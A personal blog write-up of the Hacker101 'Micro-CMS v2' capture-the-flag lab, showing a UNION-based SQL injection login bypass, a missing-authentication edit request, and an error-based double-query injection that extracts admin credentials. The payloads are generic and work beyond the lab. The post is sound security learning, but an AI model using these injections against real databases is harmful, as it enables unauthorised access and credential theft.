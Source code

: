 ```yaml
---
title: 'Hackerone CTF: Micro-CMS v2'
excerpt: 'The trials of a harder than advertised sql injection ctf.'
coverImage: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
date: '2020-06-01'
ogImage:
  url: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
---
```

The other day, I subumitted a bug to hackerone and I noticed they had a [ctf section](https://www.hacker101.com/). They exercises so far are fun, pretty straight forward, and earn you invites to private bug bounty programs.

I wanted to detail my experience with their `Micro-CMS v2` ctf, the second and more advanced ctf following Micro-CMS v1, because it went from easy to what feels like advanced toot sweet. Where Micro-CMS v1 dealt mostly with XSS, v2 mostly deals with SQL injection.

## Finding Flag0
Unlike v1, any action besides viewing pages redirects you to a login page.
![IMG1](/images/hackerone-ctf-micro-cms-v2/one.gif)

If they login code used something like this to authenticate:

~~~SQL
SELECT * FROM users
WHERE name='%s'
and password='%s'
~~~

Then this would have worked
![IMG2](/images/hackerone-ctf-micro-cms-v2/two.gif)

But it did not. And it's back to the drawing board.
![IMG3](/images/hackerone-ctf-micro-cms-v2/three.gif)

My first break came when I put a simple singular quote in the user name and submitted. It spit out the following error.
~~~Python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
~~~

Now we know the query for authentication:
~~~SQL
SELECT password FROM admins WHERE username='%s'
~~~

And here's the statement that'll get authenticated:
~~~SQL
SELECT password FROM admins WHERE username='' or '0'='1' UNION ALL SELECT '1234'
~~~
![IMG4](/images/hackerone-ctf-micro-cms-v2/four.gif)
The '0'='1' negates the first select and instead returns `1234` as the value of `password`. And it's after successful login that we are given the first flag.


## Finding Flag1
Now, as authorized users, we can edit pages. This is done via POST request on pages with urls like `/page/edit/1`. I did exactly, then logged out, repeated the same request, having removed the cookie. And whoops! Looks like the someone forgot to test auth in the edit page's post query logic.
![IMG5](/images/hackerone-ctf-micro-cms-v2/five.gif)


## Finding Flag2
If this was all there was, I don't think I would be writing this up. It's this next flag that was a real brain-wrinkler. The only hint given to use is this: `Credentials are secret, flags are secret. Coincidence?` So it looks like we need to acquire the login and the password.

The only data we can get from the database seems to be either an error when we create an faulty sql command, like the one that exposed the SQL, or when we attempt to log in. But even then we are either successful thru the UNION injection at which point we are redirected and get no information divulged, or 'Unknown user' or 'Invalid Password' when we try to login unsuccessfully.

So how do we retrieve the credentials?

#### Double Query Injection
They key to this technique is the `GROUP BY` modifier. When combined with the aggregate function like count(*) we produce a `Duplicate entry` error that outputs the data we select for.

This looks complicated, but let's make it easier to parse visually:
~~~SQL
' OR (
	SELECT 1 from (
		select count(*), 
		concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
		 as c from information_schema.tables group by c
		) as a
	) 
AND '1' = '1
~~~

And lets break it down some more:
~~~SQL
concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
~~~
This select statement is our payload, so to speak. You could even pass functions `SELECT database()` if you wanted discover other info. In this case, it'll retrieve our username, and one could increase to LIMIT 1,1 to get the username of the next row.

~~~SQL
as c from information_schema.tables group by c
~~~
`information_schema.tables` is used here because it will reliably have enough rows in it to trigger our duplication, we are not actually retrieving any data from this table

~~~SQL
) as a
~~~
`as a` alias is used because we get this error without it:` OperationalError: (1248, 'Every derived table must have its own alias')`

Feeding this string to the username param and POSTing it returns this error from the server:
![IMG6](/images/hackerone-ctf-micro-cms-v2/six.gif)

So here we have our login, `evalina`

We do the same request except we change the column of the nested SELECT statement from `username` to `password`. Now we have our credentials, we log in, and the flag is ours.
